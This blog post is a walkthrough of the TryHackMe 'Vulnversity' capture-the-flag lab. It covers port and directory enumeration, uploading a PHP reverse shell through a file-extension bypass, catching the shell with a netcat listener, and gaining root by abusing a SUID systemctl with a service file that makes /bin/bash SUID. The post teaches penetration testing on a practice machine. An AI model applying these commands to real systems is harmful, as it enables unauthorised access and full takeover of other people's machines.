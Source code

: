```yaml
---
layout: post
title: Tryhackme Vulnversity Ctf Writeup
description: Learn about active recon, web app attacks and privilege escalation.
date: 2021-10-9 18:04
image: '/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vulnbanner.png'
tags: [ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
featured: false
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
Let's start with enumerating the host.I will use Network Mapper **nmap** tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |

Full command:
{% highlight bash %}
nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg)
<br>
To create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){:style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command:
{% highlight bash %}
gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){:style="max-width: 80%" .normal} 
<br>
Let's go for **http://[IP]:3333/internal**
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){:style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://github.com/krygeNNN/phpenumerate)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} <br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} <br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.<br>
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){:style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){:style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){:style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){:style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: 
{% highlight bash %}
nc -nvlp 8888
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){:style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){:style="max-width: 80%" .normal} 
<br>
Visit this URL >> **http://{machineIP}:3333/internals/uploads**, and than click to the reverse php 
shell script that you have uploaded. 

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){:style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## 3-Flag Capturing and Privilege Eseclation
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run those in order: 
{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){:style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){:style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command:
{% highlight bash %}
find -type f -user root -perm -u=s 2>/dev/null
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){:style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
<br>
[**GTFOBins >>**](https://gtfobins.github.io/)
<br>
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){:style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
{% highlight bash %}
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
{% endhighlight %}
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
<br>Run:
{% highlight bash %}
bash -p
{% endhighlight %}
#### 2-Root Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)

